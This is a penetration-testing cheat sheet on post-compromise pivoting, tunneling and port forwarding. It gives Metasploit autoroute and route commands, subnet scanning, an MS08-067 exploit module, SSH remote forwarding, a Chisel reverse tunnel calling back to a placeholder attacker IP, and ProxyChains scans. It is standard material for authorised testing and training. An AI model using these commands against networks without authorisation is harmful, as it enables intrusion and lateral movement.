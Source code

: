 # Pivoting, Tunneling, and Port Forwarding

## Pivoting

***

Pivoting involves the technique of using a compromised host to attack other hosts within a network. This cheat sheet provides steps and techniques for effective pivoting.

### Autoroute (Metasploit/Meterpreter)

***

Check the network configuration of the compromised host.

```jsx
ifconfig
```

Use the Autoroute module in Metasploit/Meterpreter.

```jsx
use multi/manage/autoroute
```

Add routes to other subnets as needed.

```jsx
run autoroute -s 192.168.1.0/24 run autoroute -p
```

### Route Table (Metasploit/Meterpreter)

Configure the module in Metasploit/Meterpreter.

Set up network interfaces

```jsx
ifconfig
```

Scan for target subnets

```jsx
run arp_scanner -h run arp_scanner -r 192.168.1.0/24
```

Background the session

```jsx
background
```

Add routes to target subnets

```jsx
route add 192.168.1.0/24 2
```

View the current route table

```jsx
route print
```

Scan the target subnets using Metasploit's scanner module

```jsx
use scanner/portscan/tcp
```

Example of exploiting a target in a subnet.

```jsx
use windows/smb/ms08_067_netapi
```

## Port Forwarding

***

### Local Port Forwarding with SSH

***

Establish local port forwarding using SSH.

`ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]`

### Remote Port Forwarding with SSH

***

Establish remote port forwarding using SSH.

`ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]`

Example

`ssh -R 3389:10.1.1.224:3389 root@10.11.0.32`

### Port Forwarding with Chisel (Windows)

***

For Kali. \*\*\*\*Start the Chisel server.

```jsx
chisel server -p 8008 --reverse
```

For the Target\*\*.\*\* Use the Chisel client to establish port forwarding.

```jsx
.\\\\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389
```

## Tunneling

***

### ProxyChains

***

Configure proxychains by editing `/etc/proxychains.conf`.

```jsx
/etc/proxychains.conf  [ProxyList] socks4 localhost 8080
```

Use proxychains with various tools.

```jsx
proxychains nmap -sT 192.168.5.6
```

### ProxyChains with SOCKS4 (Metasploit)

***

Use the Metasploit module for SOCKS4 proxy.

```jsx
use auxiliary/server/socks4a
```

Configure the proxy settings.

```jsx
socks4 127.0.0.1 9050
```

Use the desired tool with proxychains.

```jsx
proxychains nmap -Pn -sT -sV -p $PORT $IP
```
